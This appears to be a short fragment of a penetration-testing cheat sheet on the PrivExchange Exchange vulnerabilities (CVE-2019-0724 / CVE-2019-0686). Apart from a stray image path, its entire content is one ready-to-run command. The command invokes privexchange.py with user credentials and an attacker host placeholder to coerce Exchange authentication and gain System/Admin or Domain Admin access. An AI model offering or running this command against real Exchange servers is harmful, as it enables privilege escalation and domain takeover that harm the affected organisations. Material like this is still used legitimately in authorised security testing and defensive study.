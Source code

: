# PriveExchange CVE 2019-0724 / CVE-2019-0686

 - python privexchange.py -ah ATTACKER_HOST_OR_IP EXCHANGE_HOST -u USER -d DOMAIN -p PASSWORD (Coerce HTTP to System/Admin or Domain Admin access)

